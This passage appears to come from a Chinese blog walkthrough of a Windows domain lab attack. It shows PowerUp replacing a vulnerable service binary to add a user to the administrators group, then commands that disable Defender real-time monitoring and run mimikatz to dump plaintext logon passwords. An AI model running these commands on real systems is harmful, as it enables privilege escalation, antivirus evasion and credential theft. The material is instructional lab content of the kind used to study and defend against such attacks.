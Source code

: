 

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191203225331367.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)  

从执行该脚本输出的结果来看，我们可以利用下面这个危险的服务进行提权，名字都叫 VulnService 了，当然真实环境肯定不会这样命名。  

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191203225350253.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)  

于是，我们执行下面的命令进行提权



```
write-servicebinary -servicename vulnservice -username "offensive\alice" -password Password!  #该命令会在本目录下生成一个service.exe文件，该文件启动时会将用户offensive\alice提权到管理员组内。需要注意的是，这里的username必须是域内已经存在的用户，而password的话，则随便填，可以是这个域用户的正确密码，也可以随便指定密码，这对该域用户的密码无影响 cp .\service.exe "c:\program files\vuln service\vulnservice.exe"  #复制本路径下的service.exe文件到指定的程序`



*   1

*   2
```




![在这里插入图片描述](https://img-blog.csdnimg.cn/20191203225542671.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)  

然后重启系统，重启后会发现 offensive\\alice 在管理员组内了。(当然实际场景不可能让你重启系统的)  

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019120322572328.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



Mimikatz获取明文密码

--------------



在提权至管理员权限后，我们可以运行mimikatz来获取位于内存中的密码，执行以下命令。在执行mimikatz之前，必须先执行命令关闭windows自带的defender防火墙，否则defender会杀掉mimikatz。



**注**：以下命令的执行需要在powershell的管理模式打开，也就是右键，以管理员权限打开powershell



```
Set-MpPreference -disablerealtimeMonitoring $true     #关闭windows自带的defender防火墙 cd C:\Users\alice\Desktop\tools\mimikatz_trunk\x64    #切换到mimikatz64位的目录下 .\mimikatz.exe             #运行mimikatz privilege::debug           #提权 sekurlsa::logonpasswords   #获取明文密码`



*   1

*   2

*   3

*   4

*   5
```
